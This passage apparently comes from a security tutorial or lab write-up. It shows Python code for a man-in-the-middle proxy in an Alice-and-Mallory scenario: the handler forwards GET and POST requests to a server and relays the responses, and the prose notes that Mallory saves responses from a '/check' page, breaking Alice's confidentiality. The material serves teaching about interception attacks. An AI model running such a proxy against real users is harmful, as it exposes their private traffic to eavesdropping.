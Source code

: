 ```python

        # self.wfile.write(res_body.decode('utf-8'))
        # HTTP response headers
        # self.send_header("Content-type", "text/html")
        self.send_response(res_status, res_body)
        print("response")
        print("headers")
        for pair in res_headers:
            print(pair)
            self.send_header(pair[0], pair[1])#.split(";")[0])
        # self.send_header("Content-type", "text/html")
        self.end_headers()
        print(str(res_status) + " ; " + str(res.reason))
        print(res_body)
        conn.close()
```

Something to notice here is that we are targetting a page Alice visits.
If the path is `'/check'` Mallory saves the response body violating
the confidentiality Alice may think she has.

```python
    # POST request handler 
    def do_POST(self):
        body = ""
        method = 'POST'
        path = self.path
        body_length = self.headers.get('content-length')
        if ((body_length != None) and (int(body_length) > 0)):
            # read in the body
            body = self.rfile.read(int(body_length))

        headers = self.headers.items()
        headers_dict = dict(headers)
        print("headers")
        print(headers_dict)

        conn = HTTPSConnection(SERVER)
        conn.request(method, path, body, headers_dict)
        res = conn.getresponse()

        res_body = res.read().decode('utf-8')
        res_status = res.status
        res_headers = res.getheaders()

        # self.wfile.write(res_body.decode('utf-8'))
        # HTTP response headers
        # self.send_header("Content-type", "text/html")
        self.send_response(res_status, res_body)
        print("response")
        print("headers")
        for pair in res_headers:
            print(pair)
            self.send_header(pair[0], pair[1])#.split(";")[0])
        # self.send_header("Content-type", "text/html")
        self.end_headers()
        print(str(res_status) + " ; " + str(res.reason))
        print(res_body)
        conn.close()
```

